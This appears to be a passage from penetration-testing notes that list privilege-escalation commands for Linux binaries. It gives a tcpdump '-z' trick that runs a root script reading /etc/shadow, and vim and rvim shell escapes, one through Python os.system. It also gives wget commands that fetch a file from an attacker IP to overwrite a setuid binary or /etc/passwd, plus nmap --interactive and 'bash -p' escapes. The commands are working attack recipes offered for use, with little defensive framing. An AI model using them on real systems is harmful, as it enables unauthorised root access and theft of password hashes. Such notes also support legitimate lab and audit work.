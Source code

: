 #### tcpdump <a id="tcpdump"></a>

```text
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

#### vi/vim <a id="vivim"></a>

```text
:shell

:set shell=/bin/bash:shell    
:!bash
```

#### rvim <a id="rvim"></a>

```text
:diffpatch $(sh <&2 >&2) 

:py import os
:py os.system("/bin/bash")
```

[https://github.com/vim/vim/issues/1543](https://github.com/vim/vim/issues/1543)

#### wget

Any file that is overwritten by wget will maintain it's permissions \(double-check this\), so it's generally a good idea to overwrite either a setuid file that is not key for the machine to continue execution, or to overwrite something like `/etc/passwd`

```text
wget <ip>:<file> -O setuid_file
wget -i /etc/passwd
```

#### nmap 2.0 - 5.21

```text
nmap --interactive
!sh
```

#### bash

```text
bash -p
```



#### References

[https://stackoverflow.com/questions/46897570/why-do-files-in-proc-self-end-up-being-owned-by-root-if-a-program-has-its-setui](https://stackoverflow.com/questions/46897570/why-do-files-in-proc-self-end-up-being-owned-by-root-if-a-program-has-its-setui)
